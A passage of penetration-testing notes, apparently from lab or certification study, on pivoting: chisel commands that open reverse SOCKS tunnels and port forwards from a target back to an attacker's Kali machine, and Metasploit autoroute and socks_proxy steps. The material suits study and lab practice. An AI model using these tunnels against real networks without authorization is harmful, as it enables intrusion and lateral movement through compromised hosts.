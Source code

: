 ```
(covered in a previous module) in order to get a reverse HTTP shell.599
3. Replicate the scenario demonstrated above using your dedicated clients.
```

## chisel
+ download, https://github.com/jpillora/chisel
+ [tunneling with chisel](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
+ [htb-buff](https://0xdf.gitlab.io/2020/11/21/htb-buff.html#tunnel)

```
# dynamic proxy, socks5; 
## kali本地启动1080 socks5代理
## kali
./chisel_linamd64 server -p 8000 --reverse

## target
.\chisel64.exe client [kaliip]:8000 R:socks

# proxy 反向代理
## target 本地端口8888端口开放，通过chisel转发端口到kali 8888
##kali
./chisel_linamd64 server -p 8000 --reverse

## target
.\chisel64.exe client 10.10.14.3:8000 R:8888:localhost:8888
```

## metasploit socks
+ post/multi/manage/autoroute add the route
+ auxiliary/server/socks_proxy, start proxy

```bash
# add subnet
use post/multi/manage/autoroute
set session 1
run

# start socks proxy
use auxiliary/server/socks_proxy
show options
## change the port or not, default 1080
run -j

# add the socks to /etc/proxychains4.conf 
socks5  127.0.0.1 1080

# delete route
use post/multi/manage/autoroute
show options
set cmd delete
run 

route flush

## then add new subnet
set session 1
set cmd autoadd
run
route 
```


